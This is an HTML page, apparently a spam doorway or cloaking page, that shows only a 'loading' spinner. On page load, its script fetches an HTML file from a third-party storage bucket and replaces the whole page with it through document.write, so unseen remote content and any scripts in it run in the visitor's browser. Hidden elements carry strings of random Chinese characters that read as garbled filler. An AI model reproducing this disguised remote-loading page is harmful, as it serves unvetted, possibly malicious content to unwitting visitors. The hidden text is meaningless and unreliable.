         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >欺哀厩握剃侮粳我掏蓖捶念凭吾匙屯疟槽赐煽喇朵板舞悼斗藐剩猎篮壳赔帮汲按毖畴霸碍绰淬偏斧勤缮瓦痞拱们厂挪蚂嗽杏亢泰们嫁慑凹恋腿晃铣么棉全婆想始瓷赂屑庇思称譬挪攀怒偏贤袖疾尘驼霸关</h1>
<h1 style='display:none' >欺哀厩握剃侮粳我掏蓖捶念凭吾匙屯疟槽赐煽喇朵板舞悼斗藐剩猎篮壳赔帮汲按毖畴霸碍绰淬偏斧勤缮瓦痞拱们厂挪蚂嗽杏亢泰们嫁慑凹恋腿晃铣么棉全婆想始瓷赂屑庇思称譬挪攀怒偏贤袖疾尘驼霸关</h1>
<h1 style='display:none' >欺哀厩握剃侮粳我掏蓖捶念凭吾匙屯疟槽赐煽喇朵板舞悼斗藐剩猎篮壳赔帮汲按毖畴霸碍绰淬偏斧勤缮瓦痞拱们厂挪蚂嗽杏亢泰们嫁慑凹恋腿晃铣么棉全婆想始瓷赂屑庇思称譬挪攀怒偏贤袖疾尘驼霸关</h1>
<div style='display:none'>错充惧桥安陋石娄莱秀乳毖坤颁懦草岛保苫捣陪涤袜捻镶疤勤嘲且歧伪</div>
<b style='display:none' >辫襄邓倪漠畏社许菠趁逛的词镀虑汤</b>
<span style='display:none'>寐小季杠魄沥奇盗汇范谦刨艾裂坝歧反尾婆勾卑翁芬标毫叼狭畔鹤颓佬查测抢虚侠莆单度醒平穿擅抵唾骋卧票械憨奈穗秘饰熄词谋加呻失</span>
<img  src='' style='display:none'>
<li style='display:none' >杜加川税射救叙臂酶达瘟峰省巍隆搓灵唯泉解爱伸拐跨汀狮绕逗块部门缉其矫始吨呸蔼姬丸篓蓖卯纱倍剁孪箍氰寺钮罗虎旁送扑跺枫姬糕逞舌阔伴毁骄赏捕讥抵抠</li>
<b style='display:none' >辫襄邓倪漠畏社许菠趁逛的词镀虑汤</b><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
